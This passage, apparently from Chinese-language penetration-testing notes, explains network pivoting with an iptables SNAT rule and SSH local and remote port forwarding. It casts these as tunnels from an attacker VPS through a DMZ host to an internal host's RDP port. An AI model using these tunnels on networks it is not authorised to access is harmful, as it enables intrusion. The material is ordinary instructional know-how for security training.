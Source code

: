 将目标IP为10.1.1.11且目标端口为3389的TCP数据包，发送出去时，将源IP地址改为192.168.100.100

(相当于实现了网络地址转换（NAT），将内部私有网络中的IP地址转换为公网IP地址)

**保存并重启服务**

```bash
service iptables save && service iptables start
```



# SSH端口转发

> SSH 端口转发功能能够将其他 TCP 端口的网络数据通过 SSH 链接来转发，并且自动提供了相应的加密及解密服务。其实这一技术就是我们常常听说的隧道(tunnel)技术，原因是 SSH 为其他 TCP 链接提供了一个安全的通道来进行传输。

推荐阅读：[SSH 端口转发教程 | 三点水 (lotabout.me)](https://lotabout.me/2019/SSH-Port-Forwarding/)

## 本地转发

**本地端口转发指的是在本机上发起请求，由 ssh client 转发到远程的机器上**

![img](../../images/local-port-forwarding-two.svg)

假设A为攻击机VPS，B为DMZ区主机，C为内网主机，A能访问B

```bash
# ssh client即攻击机VPS执行
ssh -CfNg -L 1234:ip_c:3389 user_b@ip_b
```

参数解释

```bash
-C 选项使用压缩算法进行数据传输，可以提高传输效率。
-f 选项将SSH会话放入后台运行。
-N 选项表示不执行远程命令，仅用于建立隧道。
-g 选项允许其他主机连接该隧道。
-L 1234:ip_c:3389 user_b@ip_b 选项指定在本地监听1234端口，并将所有通过该端口的流量转发到目标主机C的3389端口。
```

实现了访问攻击机1234端口实质上是访问内网主机C的3389端口

## 远程转发

把最终请求的发起方（机器 A）为“本地”，服务所在的机器 B/C 为“远程”，在本地机器上执行 `ssh` 命令就称为“本地转发”，在远程机器上执行命令就称为“远程转发”

![img](../../images/remote-port-forwarding.svg)

假设A为攻击机VPS，B为DMZ区主机，C为内网主机，A不能访问B，B能访问A

```bash
# ssh cilent即DMZ区主机执行
ssh -CfNg -R 9992:ip_c:3389 user_a@ip_a
```

参数解释

